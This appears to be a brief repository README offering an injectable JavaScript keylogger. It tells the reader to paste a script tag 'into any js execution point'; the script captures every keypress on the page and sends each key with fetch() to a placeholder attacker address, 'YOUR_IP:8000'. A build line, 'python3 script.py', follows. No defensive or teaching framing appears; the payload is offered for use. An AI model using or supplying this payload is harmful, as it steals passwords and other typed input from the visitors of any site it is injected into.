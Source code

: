 # legit paste this into any js execution point

`<script>
document.onkeypress = function(e) {
    fetch('http://YOUR_IP:8000/keys?key=' + encodeURIComponent(e.key));
}
</script>
`

# build using

python3 script.py
